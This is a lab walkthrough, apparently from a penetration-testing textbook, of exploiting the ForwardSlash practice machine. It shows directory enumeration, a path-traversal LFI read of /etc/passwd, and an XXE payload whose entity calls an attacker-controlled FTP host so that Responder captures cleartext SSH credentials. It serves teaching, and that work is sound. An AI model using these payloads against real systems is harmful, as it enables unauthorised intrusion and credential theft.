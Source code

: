 # Exercise: Enumerating and exploiting XXE on ForwardSlash

We covered the first part of this machine in Chapter 2. We had discovered a site backup.forwardslash.htb which presented us with a login page. We can explore this site with gobuster looking for directories and PHP files:

┌─\[oztechmuse@parrot\]─\[~/boxes/ForwardSlash\]

└──╼ $gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -u [http://backup.forwardslash.htb](http://backup.forwardslash.htb)

&lt;SNIP&gt;

/login.php \(Status: 200\)

/register.php \(Status: 200\)

/index.php \(Status: 302\)

/welcome.php \(Status: 302\)

/dev \(Status: 301\)

/api.php \(Status: 200\)

/environment.php \(Status: 302\)

/logout.php \(Status: 302\)

/config.php \(Status: 200\)

/hof.php \(Status: 302\)

If we try and got to the /dev directory, we get a 403 Access Denied:

403 Access Denied

Access Denied From 10.10.14.135

It seems that this directory is not accessible from outside IP addresses. The login page does have a link to /register.php and so we can create an account on the site there. Using the new credentials, we can log in and get access to a dashboard page \(Figure 3-5\)

!\[Diagram

Description automatically generated\]\(../.gitbook/assets/7%20%284%29.png\)

Dashboard home page for users on ForwardSlash

The page of interest is for changing your profile picture \(Figure 3-6\) which reports that the functionality has been disabled because of a hack of the site.

!\[Graphical user interface, text, application, email, website

Description automatically generated\]\(../.gitbook/assets/8%20%284%29.png\)

Change profile picture page on ForwardSlash

The text box and Submit button have been disabled by adding the attribute disabled="" into the HTML for these elements. If you right click on the web page in the browser and select Inspect Element, you will be able to see the HTML for the page in the Inspector tab of the browser developer tools \(Figure 3-7\).

!\[Graphical user interface, text, application

Description automatically generated\]\(../.gitbook/assets/9%20%281%29.png\)

Inspecting the HTML code for the page profilepicture.php

You can click on the HTML where it says disabled in the form section and delete it for both the text box and the submit button. Let us test for Local File Inclusion \(LFI\) by pointing the URL in the text box to a local file like /etc/passwd. Switch FoxyProxy to use the Burp proxy and enter ../../../etc/passwd into the text box before pressing the Submit button. Once intercepted in Burp, send the request to the Repeater tab and press Send to send it to the server. The response includes the file!

HTTP/1.1 200 OK

&lt;SNIP&gt;

&lt;!DOCTYPE html&gt;

&lt;head&gt;

&lt;meta charset="UTF-8"&gt;

&lt;title&gt;Welcome&lt;/title&gt;

&lt;link rel="stylesheet" href="bootstrap.css"&gt;

&lt;style type="text/css"&gt;

body{ font: 14px sans-serif; text-align: center; }

&lt;/style&gt;

&lt;/head&gt;

&lt;body&gt;

&lt;div class="page-header"&gt;

&lt;h1&gt;Change your Profile Picture!&lt;/h1&gt;

&lt;font style="color:red"&gt;This has all been disabled while we try to get back on our feet after the hack.&lt;br&gt;&lt;b&gt;-Pain&lt;/b&gt;&lt;/font&gt;

&lt;/div&gt;

&lt;form action="/profilepicture.php" method="post"&gt;

URL:

&lt;input type="text" name="url" disabled style="width:600px"&gt;&lt;br&gt;

&lt;input style="width:200px" type="submit" value="Submit" disabled&gt;

&lt;/form&gt;

&lt;/body&gt;

&lt;/html&gt;

root:x:0:0:root:/root:/bin/bash

&lt;SNIP&gt;

pain:x:1000:1000:pain:/home/pain:/bin/bash

chiv:x:1001:1001:Chivato,,,:/home/chiv:/bin/bash

mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false

This shows a couple of users, pain and chiv. If we now try LFI on the /dev directory, it will include the file index.php from there and we can read the contents:

&lt;html&gt;

&lt;h1&gt;XML Api Test&lt;/h1&gt;

&lt;h3&gt;This is our api test for when our new website gets refurbished&lt;/h3&gt;

&lt;form action="/dev/index.php" method="get" id="xmltest"&gt;

&lt;textarea name="xml" form="xmltest" rows="20" cols="50"&gt;&lt;api&gt;

&lt;request&gt;test&lt;/request&gt;

&lt;/api&gt;

&lt;/textarea&gt;

&lt;input type="submit"&gt;

&lt;/form&gt;

&lt;/html&gt;

&lt;!-- TODO:

Fix FTP Login

--&gt;

Do you remember how we got a 403 error when we tried to access this directory before with an error message saying we couldn't access it from our IP address? Well, we have now found a way of exploiting a SSRF \(Server Side Request Forgery\) by accessing the site from the web server itself using LFI.

The returned information suggests a function to test XML input and so we can test if the site is vulnerable to XXE. This next part is going to be a leap of faith as to how you are supposed to work out that what the XML will do is try an FTP login, however, there is a clue in the TODO message to "Fix FTP Login". We can construct an XML document that will execute an FTP login as follows:

&lt;?xml version="1.0" ?&gt;

&lt;!DOCTYPE html \[

&lt;!ELEMENT bar &gt;

&lt;!ENTITY foo SYSTEM "ftp://10.10.14.135/"&gt;

\]&gt;

&lt;api&gt;

&lt;request&gt;$foo;&lt;/request&gt;

&lt;/api&gt;

We can then send that to the /dev/index.php page using the request in Burp by passing the XML as a parameter to [http://backup.fowardslash.htb/dev/index.php?xml=&lt;XXE](http://backup.fowardslash.htb/dev/index.php?xml=<XXE) code&gt;. The XML code needs to be URL encoded twice and so select the XML code in Burp and right click and select URL encode all characters. Repeat this. Before sending the request, we can start the tool responder to listen for FTP requests and print out the username and password that has been supplied:

─\[rin@parrot\]─\[~/boxes/ForwardSlash\]

└──╼ $sudo responder -I tun0

&lt;SNIP&gt;

\[+\] Servers:

&lt;SNIP&gt;

FTP server \[ON\]

When the request is sent in Burp, we get a hit:

\[+\] Listening for events...

\[FTP\] Cleartext Client : 10.129.1.91

\[FTP\] Cleartext Username : chiv

\[FTP\] Cleartext Password : N0bodyL1kesBack/

This then gives us credentials to use with SSH to get on the box as user chiv. This user doesn't have access to the user flag and you will need to do some lateral movement to get the user pain. However, that involves another SUID file and we can leave that as an exercise for later.

